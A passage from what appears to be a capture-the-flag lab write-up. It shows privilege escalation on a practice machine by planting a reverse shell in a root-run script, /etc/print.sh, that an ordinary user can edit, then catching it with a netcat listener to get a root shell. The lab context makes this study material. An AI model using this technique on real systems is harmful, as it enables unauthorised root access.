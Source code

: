 ```
lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
```

We have permissions to edit this file, 
```
lennie@startup:~/scripts$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 May 18 11:33 /etc/print.sh
```

This means that we can put a reverse shell in here ... and hope for the best.

```
┌──(kali㉿kali)-[/tmp]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.109.61] 52098
bash: cannot set terminal process group (2291): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# 
```

And ... we have root!